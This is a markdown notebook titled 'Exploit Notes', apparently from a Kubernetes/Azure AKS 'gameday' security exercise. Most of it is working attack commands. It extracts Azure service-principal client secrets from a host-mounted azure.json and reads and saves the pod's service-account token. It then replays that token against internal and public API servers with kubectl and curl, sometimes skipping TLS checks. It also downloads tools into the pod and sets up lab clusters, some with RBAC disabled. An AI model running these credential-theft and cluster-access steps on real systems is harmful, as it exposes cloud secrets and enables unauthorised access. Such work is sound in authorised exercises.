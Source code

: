 ﻿# Exploit Notes

## Host mount
cat /meshconfig/azure.json > azure.json
echo 'Azure SPN: ' $(cat azure.json | jq '. | {s:.subscriptionId, c:.aadClientId, p:.aadClientSecret, t: .tenantId}')




## Without Success: Cluster Admin
./kubectl get pods --server='https://kubernetes.default.svc.cluster.local' --token=$(cat token.txt) --insecure-skip-tls-verify=true


kubectl get pods --server='https://gameday-ex-gameday-rg-a4baed-bb1c2c10.hcp.westeurope.azmk8s.io' --token=$(cat token.txt) --insecure-skip-tls-verify=true


KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME


      https://gameday-ex-gameday-rg-a4baed-bb1c2c10.hcp.westeurope.azmk8s.io/api/v1/namespaces/default/pods/$HOSTNAME


      https://10.0.0.1:443/api/v1/namespaces/default/pods/$HOSTNAME


      $KUBERNETES_SERVICE_PORT = 443

      curl https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/



      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/ >> https://10.0.0.1:443/


KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/default/pods/$HOSTNAME




# Point to the internal API server hostname
APISERVER=https://kubernetes.default.svc

# Path to ServiceAccount token
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount

# Read this Pod's namespace
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)

# Read the ServiceAccount bearer token
TOKEN=$(cat ${SERVICEACCOUNT}/token)

# Reference the internal certificate authority (CA)
CACERT=${SERVICEACCOUNT}/ca.crt

# Explore the API with TOKEN
curl --max-time 5 --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api


# Without RBAC - using directly the public API server URL
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET https://gameday-ex-gameday-rg-a4baed-efde364a.hcp.westeurope.azmk8s.io/api

# With RBAC - using directly the public API server URL
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET https://gameday-ex-gameday-rg-a4baed-bb1c2c10.hcp.westeurope.azmk8s.io/api




      /var/run/secrets/kubernetes.io/serviceaccount/ca.crt


      --token-auth-file=/var/run/secrets/kubernetes.io/serviceaccount/token 


./kubectl get pods --server='https://10.0.0.1:443' --token=$(cat token.txt) --insecure-skip-tls-verify=true 



# Useful

## New AKS
az aks create -n gameday-exploit-cluster2 -g gameday-rg --generate-ssh-keys --attach-acr gamedayexploitreg
az aks get-credentials -n gameday-exploit-cluster2 -g gameday-rg

az aks create -n gameday-exploit-cluster-disrbac -g gameday-rg --generate-ssh-keys --disable-rbac --attach-acr gamedayexploitreg
az aks get-credentials -n gameday-exploit-cluster-disrbac -g gameday-rg


## New AKS with kubenet
```
RG_NAME=gameday-rg
VNET_NAME=gameday-vnet
CLUSTER_NAME=gameday-exploit-kubnet-rbac
az network vnet create \
    --resource-group $RG_NAME \
    --name $VNET_NAME \
    --address-prefixes 192.168.0.0/16 \
    --subnet-name myAKSSubnet \
    --subnet-prefix 192.168.1.0/24

az ad sp create-for-rbac --skip-assignment

VNET_ID=$(az network vnet show --resource-group $RG_NAME --name $VNET_NAME --query id -o tsv)
SUBNET_ID=$(az network vnet subnet show --resource-group $RG_NAME --vnet-name $VNET_NAME --name myAKSSubnet --query id -o tsv)

az role assignment create --assignee <appId> --scope $VNET_ID --role "Network Contributor"

az aks create \
    --resource-group $RG_NAME \
    --name $CLUSTER_NAME \
    --network-plugin kubenet \
    --service-cidr 10.0.0.0/16 \
    --dns-service-ip 10.0.0.10 \
    --pod-cidr 10.244.0.0/16 \
    --docker-bridge-address 172.17.0.1/16 \
    --vnet-subnet-id $SUBNET_ID \
    --service-principal <appId> \
    --client-secret <password>
```

## Bash
k exec -it blackboxgameengine-868d84466c-9jmbf --container istio-proxy -- /bin/bash

## Install kubectl
curl -LO "https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x ./kubectl
cat /var/run/secrets/kubernetes.io/serviceaccount/token > token.txt

## JSON Parser
curl -Lo jq "https://github.com/stedolan/jq/releases/download/jq-1.6/jq-linux64"
chmod +x ./jq
export PATH=$PATH:/app